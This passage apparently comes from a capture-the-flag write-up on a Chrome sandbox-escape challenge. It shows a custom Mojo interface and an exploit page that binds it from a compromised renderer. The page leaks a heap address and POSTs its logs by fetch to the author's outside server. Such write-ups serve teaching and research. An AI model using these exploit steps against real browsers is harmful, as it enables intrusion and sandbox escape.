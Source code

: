 We can see that the author added a new Mojo service that our exploit can access from the compromised renderer. The service exposes 3 methods to the renderer: `GetTextAddress`, `GetHeapAddress`, and `PourSand`. We can invoke these methods and get their results from JavaScript, after importing the JavaScript bindings.

```
interface Sandbox {
    GetTextAddress() => (uint64 addr);
    GetHeapAddress() => (uint64 addr);
    PourSand(array<uint8> sand);
};
```

```html
<html>
<head>

<script src="http://chain.galli.me:8080/mojo/mojo_bindings.js"></script>
<script src="http://chain.galli.me:8080/mojo/third_party/blink/public/mojom/sandbox/sandbox.mojom.js"></script>

<script>
let printbuf = [];
function print(msg) {
  printbuf.push(msg);
}

async function uploadLogs() {
  await fetch('http://chain.galli.me:8080/logs', {
    method: 'POST',
    body: printbuf.join('\n'),
  });
}

function hex(x) {
  return `0x${x.toString(16)}`;
}

async function pwn() {
  let sandbox = new blink.mojom.SandboxPtr();
  Mojo.bindInterface(blink.mojom.Sandbox.name, mojo.makeRequest(sandbox).handle);
  print(`Result: ${hex((await sandbox.getHeapAddress()).addr)}`);

  await uploadLogs();
}

pwn();
</script>
</head>
</html>
```

```
Result: 0x16f8003f1600
```
